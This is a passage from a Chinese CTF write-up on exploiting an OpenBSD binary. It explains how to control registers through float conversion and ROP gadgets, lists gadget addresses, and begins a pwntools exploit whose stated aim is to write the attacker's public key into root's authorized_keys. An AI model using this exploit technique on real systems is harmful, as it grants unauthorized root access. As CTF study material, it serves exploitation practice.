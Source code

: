 计算浮点数的二进制python代码如下：

```
def float2bin_32(num):
  return ''.join(bin(ord(c)).replace('0b', '').rjust(8, '0') for c in struct.pack('!f', num))
```

由于只能控制esi，因此数值不能太大，程序没开PIE，可以将用到的字符串，地址之类写在payload的开头，此部分数据会复制到bss段，bss段在0x601000，在单精度浮点数的有效数值范围内。

下一步就是如何控制rax，程序中也是没用直接控制的gadget，这里可以使用`mov eax, 0xffffffff`，先赋一个数值到eax，然后通过`shr eax`和`not al`构造想要的数值。

```
0x0000000000400394: mov eax, 0xffffffff; xor rcx, rcx; ret;
0x0000000000400370: shr eax, 1; ret;
0x000000000040036d: not al ; adc cl, 0xe8 ; ret
```

以下是构造的例子，利用这两个gadget可以构造任意数值：

```
# execve
00000000 00000000 00111111 xxxxxxxx shr*18
00000000 00000000 00011111 1xxxxxxx shr
00000000 00000000 00001111 11xxxxxx shr
00000000 00000000 00001111 00xxxxxx not
00000000 00000000 00000111 100xxxxx shr
00000000 00000000 00000111 011xxxxx not
00000000 00000000 00000000 00111011 shr*5
# open 5
00000000 00000000 00000111 xxxxxxxx shr*21
00000000 00000000 00000011 1xxxxxxx shr
00000000 00000000 00000011 0xxxxxxx not
00000000 00000000 00000001 10xxxxxx shr
00000000 00000000 00000001 01xxxxxx not
00000000 00000000 00000000 00000101 shr*6
# write 4
00000000 00000000 00000001 11xxxxxx shr*23
00000000 00000000 00000001 00xxxxxx not
00000000 00000000 00000000 00000100 shr*6
```

解决这两个问题后，剩下就是常规ROP的套路。

### <a class="reference-link" name="exp%E7%BC%96%E5%86%99"></a>exp编写

需要安装一个OpenBSD6.8进行调试，由于OpenBSD系统调用不同，Ubuntu的gdb无法调试本程序。

base64decode后溢出长度0x308，其中前0x300字节复制到0x6010c0，这部分可以用于存放rop需要使用的字符串。

这里先给出最终exp，rop为将自己的公钥写入root的authorized_keys，其中payload开头为私钥存储的格式，以及写入路径和自己的公钥，最终payload也根据ssh key格式进行了调整。详细见下面ssh key的分析。

```
from pwn import *
import struct, base64
context.log_level = 'DEBUG'

def float2bin_32(num):
  return ''.join(bin(ord(c)).replace('0b', '').rjust(8, '0') for c in struct.pack('!f', num))

cvtss2si_esi = 0x0000000000400380# cvtss2si esi, xmm0; ret;
movss_xmm0 = 0x000000000040037b# movss xmm0, dword ptr [rdx]; mov ebx, 0xf02d0ff3; ret;
movups_xmm0 = 0x000000000040037c# movups xmm0, xmmword ptr [rdx]; mov ebx, 0xf02d0ff3; ret;

syscall = 0x00000000004003cf# syscall; ret;

mov_rdi_rsi_prdx = 0x0000000000400367# mov rdi, rsi; pop rdx; ret;

```